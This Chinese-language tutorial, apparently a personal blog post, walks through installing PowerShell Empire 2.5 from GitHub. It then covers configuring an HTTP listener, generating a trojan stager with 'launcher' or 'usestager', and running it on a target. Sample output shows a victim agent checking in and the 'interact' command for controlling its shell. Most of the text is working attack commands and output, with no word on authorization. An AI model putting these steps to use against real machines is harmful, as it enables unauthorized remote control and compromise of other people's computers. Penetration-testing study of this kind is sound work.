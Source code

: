 ```yaml
---
以前就听说过这个工具，是一个后渗透神器
---
```

# 简单介绍一个生成木马建立监听的过程
首先安装,我在用的是2.5版本的，大概在2.0之后的版本和之前的命令就不太一样了，现在网上很多教程都是1.x的就导致我学习的时候走了很多弯路
```
# kali clone项目到本地
git clone https://github.com/EmpireProject/Empire.git
# 安装
sudo ./Empire/setup/indtall.sh
# 可能要输入一个什么密码，直接回车就可以，全部执行完成后就算完成了，需要的话还可以把./Empire/empire添加到系统命令中
```

# 介绍 empire主要分为三个部分，
- module是一些payload，可以通过这个模块生成各种需要的后门之类的
- listeners监听器，几种类型
- agents管理一些反弹到的shell或者是代理之类的

# 简单使用过程
## 配置监听
```
# 查看帮助信息
help

# 进入监听模式，并查看当前的监听
listeners
# 此时提示符会加上listener字样 第一次会提示没有设置监听

# 配置一个监听
uselistener http 	# 使用http监听，还有很多其他形式的，
info			# 查看需要配置的信息，类似show options
set 			# set命令用来配置参数，格式set 选项 值,注意配置完成后并没有立即生效
execute			# 使set命令生效，同时启动监听器
back			# 退出监听配置

# 再次查看监听
listeners
# 配置监听要注意任何两个监听的Name和Port不能相同
kill +Name		# 删除监听
```
## 生成木马
注意要先建立监听才能继续生成木马，因为木马需要反弹shell的地址和端口
```
# 退回模式
listeners

# 可以使用launcher和usestager两种方法生成木马，launcher生成文本形式的，usestager生成文件形式的（暂时觉得是这样的，2019.5.3）

launcher +语言 +监听器Name
# 直接回显想要的代码

usestager +Empire stager
# 需要set设置监听器等相关的参数才可以继续
execute			# set生效，生成木马文件

# 到目标机器上执行生成的文件，或命令

```

# 结果
如果一切正常的话监听机有回显如下
```
[*] Sending POWERSHELL stager (stage 1) to 10.203.87.61
[*] New agent NCU84961 checked in
[+] Initial agent NCU84961 from 10.203.87.61 now active (Slack)
[*] Sending agent (stage 2) to NCU84961 at 10.203.87.61

# 会显示被攻击级器的IP

# 使用agents，查看代理或者目标
agents

[*] Active agents:

 Name     La Internal IP     Machine Name      Username                Process            PID    Delay    Last Seen
 ----     -- -----------     ------------      --------                -------            ---    -----    ---------
 NCU84961 ps 192.168.11.1    DESKTOP-S8B7MSP   DESKTOP-S8B7MSP\R-web   powershell         1968   5/0.0    2019-05-03 17:59:53

连接目标shell
interact NCU84961

```

---
这算是一个最简单的empire使用教程吧
---

# 相关链接
- [PowerShell Empire实战入门篇](http://www.52bug.cn/hkjs/4368.html) 这个是2.3版本的教程，算是一个比较新的入门教程吧
- [Empire 2.5：PowerShell渗透测试实战指南（上篇）](https://www.freebuf.com/articles/web/165925.html) 也是一个比较新的教程，而且涉及到了web界面配置